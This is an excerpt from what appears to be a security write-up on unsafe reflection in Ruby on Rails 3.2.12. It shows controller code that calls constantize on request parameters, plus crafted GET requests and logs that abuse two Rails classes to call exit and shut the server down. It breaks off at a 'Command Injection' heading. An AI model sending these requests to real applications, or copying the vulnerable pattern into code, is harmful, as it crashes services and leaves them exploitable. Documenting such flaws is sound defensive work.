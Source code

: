 It is possible to cause a Denial of Service attack, for example, by targeting classes which create symbols from user-controlled input or allow calling arbitrary methods. Example:
```
class TesteController < ApplicationController
    def index
        klass = params[:class].constantize
        obj = klass.new(params[:arg])
        ...
    end
```
**Taking advantage of ActionController::MimeResponds::Collector in Rails 3.2.12. Use "exit!" to shutdown the application server.**

```
Started GET "/teste/index?class=ActionController::MimeResponds::Collector&arg[]=exit" for 127.0.0.1 at 2013-02-10 21:27:01 -0200
Processing by TesteController#index as HTML
  Parameters: {"class"=>"ActionController::MimeResponds::Collector", "arg"=>["exit"]}
Completed 500 Internal Server Error in 1ms
SystemExit (exit):
  app/controllers/teste_controller.rb:4:in `new'
  app/controllers/teste_controller.rb:4:in `index'
```

**Another Example:**
```
class TesteController < ApplicationController
    def index
        klass = params[:class].constantize
        obj = klass.new(params[:arg1], params[:arg2])
        r = obj.somemethod
        ...
    end
```
**Taking advantage of ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy [4] in Rails 3.2.12. Use "exit!" to shutdown the application server.**

```
Started GET "/teste/index?class=ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy&arg1=xxx&arg2=exit" for 127.0.0.1 at 2013-02-10 21:51:01 -0200
Connecting to database specified by database.yml
Processing by TesteController#index as HTML
  Parameters: {"class"=>"ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy", "arg1"=>"xxx", "arg2"=>"exit"}
DEPRECATION WARNING: @exit is deprecated! Call exit.somemethod instead of @exit.somemethod. Args: []. (called from index at /home/user/myapp/app/controllers/teste_controller.rb:5)
Completed 500 Internal Server Error in 1ms

SystemExit (exit):
  app/controllers/teste_controller.rb:5:in `index'

```

**Command Injection**
